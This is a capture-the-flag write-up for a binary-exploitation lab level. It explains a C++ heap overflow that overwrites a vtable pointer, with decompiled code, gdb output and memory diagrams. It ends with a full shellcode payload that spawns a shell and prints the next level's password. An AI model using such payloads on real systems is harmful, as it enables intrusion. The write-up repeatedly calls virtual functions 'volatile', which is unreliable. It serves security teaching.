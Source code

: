 # Level 9

This time, we got blessed by C++ code!

The executable allocates the space for two new objects of the class `N` with `new`.

When we take a look at the decompiled version of the constructor on Ghidra,
there is some weird assignation going on:

```c++
void __thiscall N::N(N *this,int param_1)

{
  *(undefined ***)this = &PTR_operator+_08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}
```

So `*this` is assigned to a function pointer??? WTF?!?
This happens because the pointer is poiting to the `operator+(&N)` function and it happens to be a `volatile` function.
This is code written by the compiler, not the user.

Classes with volatile functions in C++ have a `vtable` where the pointer to `volatile` functions are stored for runtime resolving.
This `vtable` is starting at the address of the object. Lets say that we allocated our object on the address `0x100`:

```
+---------------+---------------+---------------+
| 0x100         | vtable        | operator+(&N) |
+---------------+---------------+---------------+
| 0x104         | parameters    | N::char       |
|               |               |     s[0x64]   |
|               |               |               |
|               |               |               |
|               |               |               |
|               |               |               |
+---------------+               +---------------+
| 0x168         |               | N::int param  |
+---------------+---------------+---------------+
```

We saw that we are allocating two object on the heap.
So, assuming the heap starts at `0x804a000`, our heap memory will look like this:

```
+---------------+---------------+---------------+
| 0x804a000     | malloc metadata               |
+---------------+---------------+---------------+
| 0x804a008     | vtable        | operator+(&N) |
+---------------+---------------+---------------+
| 0x804a00c     | parameters    | N::char       |
|               |               |     s[0x64]   |
|               |               |               |
|               |               |               |
|               |               |               |
|               |               |               |
+---------------+               +---------------+
| 0x804a070     |               | N::int param  |
+---------------+---------------+---------------+
| 0x804a074     | malloc metadata               |
+---------------+---------------+---------------+
| 0x804a078     | vtable        | operator+(&N) |
+---------------+---------------+---------------+
| 0x804a07c     | parameters    | N::char       |
|               |               |     s[0x64]   |
|               |               |               |
|               |               |               |
|               |               |               |
|               |               |               |
+---------------+               +---------------+
| 0x804a0e0     |               | N::int param  |
+---------------+---------------+---------------+
| 0x804a0e4     | malloc metadata               |
+---------------+---------------+---------------+
```

Lets look back to the source code, what happens after the constructors:

```c++
void main(int argc,char **argv)
{
	N *base;
	N *other;

	if (argc < 2) {
		exit(1);
	}
	
	base = new N(5);

	other = new N(6);

	base.setAnnotation(argv[1]);

	other + base;
	return;
}
```

```c++
void	N::setAnnotation(char *str) {
	size_t	n;

	n = strlen(str);
	memcpy(this.s, str, n);
}
```

We can see that `base` is calling `setAnnotation` then `other` is calling its `operator+ (&N)`.
By looking at the disassembly we can see that the last function call, the one for the `operator+ (&N)`,
is set up dynamically (`0x08048693 <+159>`):

```gdb
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
   0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret
```

So this confirms that the `operator+ (&N)` is set at runtime.
We also see in the source code that `setAnnotation` can easely overflow because there is no size check of the argument.
So in theory we could overwrite to the point of writing another function address at the address of `operator+ (&N)` of the `other` object.

```
XXXX means garbage data
.... means other data

                                                     Data
+---------------+---------------+---------------+------------+
| 0x804a000     | malloc metadata               |  ........  |
+---------------+---------------+---------------+------------+
| 0x804a008     | vtable        | operator+(&N) | 0x08048848 | <- Address of the real operator
+---------------+---------------+---------------+------------+
| 0x804a00c     | parameters    | N::char       |  XXXXXXXX  |
|               |               |     s[0x64]   |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
+---------------+               +---------------+------------+
| 0x804a070     |               | N::int param  |  XXXXXXXX  |
+---------------+---------------+---------------+------------+
| 0x804a074     | malloc metadata               |  XXXXXXXX  |
+---------------+---------------+---------------+------------+
| 0x804a078     | vtable        | operator+(&N) | 0xbad_addr | <- We overwrite the address
+---------------+---------------+---------------+------------+
| 0x804a07c     | parameters    | N::char       |  ........  |
|               |               |     s[0x64]   |  ........  |
|               |               |               |  ........  |
|               |               |               |  ........  |
|               |               |               |  ........  |
|               |               |               |  ........  |
+---------------+               +---------------+------------+
| 0x804a0e0     |               | N::int param  |  ........  |
+---------------+---------------+---------------+------------+
| 0x804a0e4     | malloc metadata               |  ........  |
+---------------+---------------+---------------+------------+
```

Now taht we understand this, lets have a quick look at `0x08048848`,
the address of the `operator+(&N)`:

```gdb
(gdb) x/wx 0x08048848
0x8048848 <vtable for N+8>:   0x0804873a
(gdb) x/9i 0x0804873a
   0x804873a <N::operator+(N&)>:     push   ebp
   0x804873b <N::operator+(N&)+1>:   mov    ebp,esp
   0x804873d <N::operator+(N&)+3>:   mov    eax,DWORD PTR [ebp+0x8]
   0x8048740 <N::operator+(N&)+6>:   mov    edx,DWORD PTR [eax+0x68]
   0x8048743 <N::operator+(N&)+9>:   mov    eax,DWORD PTR [ebp+0xc]
   0x8048746 <N::operator+(N&)+12>:  mov    eax,DWORD PTR [eax+0x68]
   0x8048749 <N::operator+(N&)+15>:  add    eax,edx
   0x804874b <N::operator+(N&)+17>:  pop    ebp
   0x804874c <N::operator+(N&)+18>:  ret
```

Basically, whats stored at `0x08048848` is the address of the function itself,
not directly the code. Now that we know that, we will too need two addresses.

```
XXXX means garbage data
.... means other data
**** means padding
---- means nopslide
ADDR means address
oooo means shellcode
                                                     Data
+---------------+---------------+---------------+------------+
| 0x804a000     | malloc metadata               |  ........  |
+---------------+---------------+---------------+------------+
| 0x804a008     | vtable        | operator+(&N) | 0x08048848 |
+---------------+---------------+---------------+------------+
| 0x804a00c     | parameters    | N::char       |  XXXXXXXX  |
|               |               |     s[0x64]   |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
|               |               |               |  XXXXXXXX  |
+---------------+               +---------------+------------+
| 0x804a070     |               | N::int param  |  XXXXXXXX  |
+---------------+---------------+---------------+------------+
| 0x804a074     | malloc metadata               |  XXXXXXXX  |
+---------------+---------------+---------------+------------+
| 0x804a078     | vtable        | operator+(&N) | 0x0804a080 | <- Address number 1
+---------------+---------------+---------------+------------+
| 0x804a07c     | parameters    | N::char       |  ****ADDR  | <- Address number 2, poiting 4 bytes after
|               |               |     s[0x64]   |  ****----  | <- nopslide
|               |               |               |  --------  |
|               |               |               |  oooooooo  | <- /bin/sh shellcode
|               |               |               |  oooooooo  |
|               |               |               |  oooooooo  |
+---------------+               +---------------+------------+
| 0x804a0e0     |               | N::int param  |  ........  |
+---------------+---------------+---------------+------------+
| 0x804a0e4     | malloc metadata               |  ........  |
+---------------+---------------+---------------+------------+
```

This is the data we need:
- 108 Bytes of garbage data
- Address number one is written at `0x804a078` and is `0x0804a080`, pointing 4 bytes after.
- 4 bytes of padding, this serves no purpose other than debugging.
- Address number two, written at `0x0804a080` and is `0x0804a088`, poiting 4 bytes after.
- 4 bytes of padding.
- A nopslide (multiple `nop` instructions)
- Our `execve("/bin/sh")` shellcode

```bash
level9@RainFall:~$ ./level9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabbbbccccddddeeeeffff`echo -ne "\x80\xa0\x04\x08****\x88\xa0\x04\x08****\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`
$ whoami
bonus0
$ cd ../bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## .pass: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728